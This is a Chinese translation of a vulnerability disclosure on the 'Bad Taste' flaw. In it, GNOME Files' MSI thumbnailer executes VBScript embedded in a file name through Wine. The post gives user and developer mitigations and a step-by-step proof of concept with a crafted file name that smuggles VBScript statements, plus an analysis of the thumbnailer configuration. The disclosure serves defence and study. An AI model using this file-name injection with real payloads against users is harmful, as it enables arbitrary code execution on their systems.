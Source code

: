 > 原文链接: https://www.anquanke.com//post/id/86476 


# 【技术分享】通过GNOME Files的缩略图实现VBScript注入


                                阅读量   
                                **84343**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：dieweltistgarnichtso.net
                                <br>原文地址：[http://news.dieweltistgarnichtso.net/posts/gnome-thumbnailer-msi-fail.html](http://news.dieweltistgarnichtso.net/posts/gnome-thumbnailer-msi-fail.html)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p0.ssl.qhimg.com/t016ba20cac7eb6d827.jpg)](https://p0.ssl.qhimg.com/t016ba20cac7eb6d827.jpg)

****

译者：[myswsun](http://bobao.360.cn/member/contribute?uid=877906634)

预估稿费：50RMB

投稿方式：发送邮件至linwei#360.cn，或登陆网页版在线投稿

**<br>**

**0x00 前言**

****

在GNOME Files文件管理器中针对MSI文件的缩略图可以导致执行任意VBScript。我将这个漏洞命名为“Bad Taste”。它的logo是变色的Wine的logo。

[![](https://p3.ssl.qhimg.com/t01a4b2dbb4cf5dad50.png)](https://p3.ssl.qhimg.com/t01a4b2dbb4cf5dad50.png)

 

**0x01 针对用户的补救措施**

****

删除/usr/share/thumbnails下的所有文件。不要使用GNOME Files。卸载任何能将部分文件名作为代码的软件。

<br>

**0x02 针对开发者的补救措施**

****

不要使用有bug的ad-hoc解析器来解析文件。处理他们时要充分验证输入。不要使用模版，而是使用unparsers。可以阅读这个LANGSEC。

<br>

**0x03 安装依赖**

****

在Debain GNU/Linux上，安装gnome-exe-thumbnailer，nautilus和wixl。其中Wixl包用于创建MSI文件以便触发漏洞。如果PoC无法生效，则安装winetricks并运行winetricks wsh56来更新Windows Script Host。

<br>

**0x04 创建MSI文件**

****

创建包含下面内容的文件poc.xml:

```
&lt;?xml version="1.0" encoding="utf-8"?&gt;
&lt;Wix xmlns="http://schemas.microsoft.com/wix/2006/wi"&gt;
&lt;Product Version="1.0"/&gt;
&lt;/Wix&gt;
```

执行下面的Bourne shell code：

```
wixl -o poc.msi poc.xml
cp poc.msi "poc.msi",0):Set fso=CreateObject("Scripting.FileSystemObject"):Set poc=fso.CreateTextFile("badtaste.txt")'.msi"
```

**<br>**

**0x05 触发执行**

****

启动GNOME文件管理器，导航到包含MSI文件的文件夹。会出现一个badtaste.txt的空文件。

<br>

**0x06 细节分析**

****

很多文件管理器都会根据文件格式生成缩略图。在GNU/Linux上，为了找到一个程序能针对特定文件格式生成缩略图，文件管理器GNOME Files使用缩略图配置文件/usr/share/thumbnailers。安装Debian包gnome-exe-thumbnailer后，/usr/share/thumbnailers/exe-dll-msi.thumbnailer包含下面的文本：

```
[Thumbnailer Entry]
TryExec=/usr/bin/gnome-exe-thumbnailer
Exec=/usr/bin/gnome-exe-thumbnailer %i %o %u
MimeType=application/x-ms-dos-executable;application/x-msdownload;application/x-msi;application/x-ms-shortcut
```

这意味着，当一个微软Windows可执行文件（EXE），安装程序（MSI），库（DLL）或快捷方式（LNK）的图标显示时，GNOME Files会调用/usr/bin/gnome-exe-thumbnailer来从文件中提取内嵌图标，或者根据文件类型提供图片。Shell脚本/usr/bin/gnome-exe-thumbnailer包含下面的代码：

[![](https://p1.ssl.qhimg.com/t01280414762b397df7.png)](https://p1.ssl.qhimg.com/t01280414762b397df7.png)



**总结**

这个代码创建了一个脚本，其中包含了要显示的缩略图的文件名，并使用Wine执行它， 而并不是通过解析MSI文件来得到它的版本号。这个脚本是使用模版创建的，这样就可以在文件名中内嵌VBScript，并触发它的执行。

因为只有一行VBScript，所以通过文件名注入的语句必须用冒号隔开。而单引号可以作为一行的注释。
